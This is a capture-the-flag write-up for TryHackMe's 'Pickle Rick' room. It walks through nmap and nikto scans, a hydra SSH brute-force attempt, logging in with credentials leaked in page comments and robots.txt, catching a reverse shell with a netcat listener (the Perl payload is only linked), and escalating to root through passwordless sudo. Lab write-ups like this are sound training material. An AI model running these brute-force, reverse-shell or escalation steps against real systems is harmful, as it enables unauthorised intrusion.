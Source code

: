 ```yaml
---
title: "[CTF] Tryhackme - Pickle Rick"
date: 2024-09-08 12:00:00 -500 
categories: [CTF - Tryhackme, Pickle Rick]
tags: [ctf,exploit,flags,tryhackme,pentesting]
author: Christoph K
---
```

[TryHackMe- Basic Pentesting](https://tryhackme.com/r/room/picklerickt)


# Tasks

    This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

- What is the first ingredient that Rick needs?
- What is the second ingredient in Rick’s potion?
- What is the last and final ingredient?


### What is the first ingredient that Rick needs?

Lets check the website:

```html
  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

Okay it seems that we need to find out the password to get the secret ingredients. At least we found already the `username` in the source code of the page. 

Username: `R1ckRul3s`

Lets check if there some other ports open besides `http`. We do a scan with `nmap`.

```bash
 

└─$ nmap 10.10.240.199 -sC -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 13:54 CST                                                                                                                                                                         
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                                                                                                                                                                 
NSE Timing: About 96.49% done; ETC: 13:55 (0:00:00 remaining)                                                                                                                                                                              
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                                                                                                                                                                 
NSE Timing: About 96.84% done; ETC: 13:55 (0:00:00 remaining)
Nmap scan report for 10.10.240.199
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 12:a8:af:25:14:c9:31:38:ea:0e:86:c0:19:9c:59:26 (RSA)
|   256 bf:d3:57:4b:38:e8:92:4b:74:cf:0e:a6:45:70:08:4f (ECDSA)
|_  256 e7:76:02:a8:96:09:fe:f4:72:b4:2f:00:d8:30:bc:cb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Okay, `SSH` is open. Lets try to bruteforce the password via `hydra`.

```bash

hydra -l R1ckRul3s -P rockyou.txt  ssh://10.10.240.199
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-11 13:58:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.240.199:22/
[ERROR] target ssh://10.10.240.199:22/ does not support password authentication (method reply 4).

```
That doesnt work - we get an error in the last line.

Lets change our attack pattern. First we check the `robots.txt` file if it exists.


    ┌──(admin㉿PREDATOR-01)-[/usr/share/wordlists]
    └─$ curl 10.10.240.199/robots.txt
    Wubbalubbadubdub

Okay that could be useful. Looks like a password.


We have a `username`and perhaps a `password`... But no login page. I think we will use a tool called `nikto` to find some vulnerabilities on this page.

https://www.kali.org/tools/nikto/

`nikto` is a powerful open-source web server scanner. It scans for potential vulnerabilites in web server. 

```bash
┌──(admin㉿PREDATOR-01)-[/usr/share/wordlists]
└─$ nikto -h 10.10.240.199                                                                                                                                                                                                                
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.240.199
+ Target Hostname:    10.10.240.199
+ Target Port:        80
+ Start Time:         2024-09-11 14:06:55 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ OPTIONS: Allowed HTTP Methods: OPTIONS, HEAD, GET, POST .
```

And we found something. We found `/login.php`. And yes, we can now login with the `username` and the potential `password from before. 


That worked. We have a shell here embedded on the webpage. We check the directory with `ls -la`:

![rick01](assets/img/tryhackme/pickle-rick/rick-01.png "rick01")

After trying `cat` we notice, that it does't work. So we have to use the browser for opening the text file.

![rick02](assets/img/tryhackme/pickle-rick/rick-02.png "rick02")



Perfect, we have our first ingredient:

Ingredient 1: `mr. meeseek hair`

### What is the second ingredient in Ricks potion?

Navigating on that online shell is hard. Lets check what we have. With `which` if there is python or perl installed.

`which perl` 


    /usr/bin/perl   


Lets use the first time a reverse shell. We can use that to connect the target system to our device. So we can navigate and get control. I use the reverse shells from `pentestmonkey`.

Perl reverse shell:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```perl
perl -e 'Check the link to get the reverse shell'

```

While we execute that command in the webpage we have to listen via `netcat` with the flags `-nlvp`
- `-n` no DNS resolutions
- `-l` listen mode
- `-v` verbose mode (more details) 
- `-p` port 


```bash
┌──(admin㉿PREDATOR-01)-[/usr/share/wordlists]
└─$ nc -nlvp 5444                                                                                                                                                                                                                          
listening on [any] 5444 ...
connect to [10.8.24.27] from (UNKNOWN) [10.10.240.199] 53090
/bin/sh: 0: can't access tty; job control turned off
$ cd /home/rick
$ cat second\ ingredients
1 jerry tear
```




And after checking the directories, I found in `/home/rick` the file `second ingredients`


Ingerdient 2: `1 jerry tear`


### What is the last and final ingredient?

We can check what we are allowed to do with our current user with `sudo -l`. It is recommended to try this command in general if you attacked a system.

In our case this command shows us, that we can use all commands with `root` privileges without password!!
```bash
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-240-199:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-240-199:
    (ALL) NOPASSWD: ALL
```

Perfect, lets use `bash -i` to open an interactive shell: 

```bash 
sudo bash -i
bash: cannot set terminal process group (1002): Inappropriate ioctl for device
bash: no job control in this shell
```
As you can see, we are working as `root`now (check the #) 

After browsing a bit in the folders `ubuntu`, `rick` and `root` I found the last ingredient:
```bash
root@ip-10-10-240-199:/# cd /root
root@ip-10-10-240-199:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
```

Last ingredient: `fleeb juice`


## Thoughts:
Funny topic with Rick and well thought CTF. I think it is a very nice use of reverse shell and I think, there are many possiblities to solve this CTF. You dont have to use a reverse shell at all! 
What did we learn? 
- using `nikto` to find vulnerabilities 
- using `reverse shells` in combination with `netcat` 
- navigate into a system while using a `reverse shell`

Hope you liked it. :)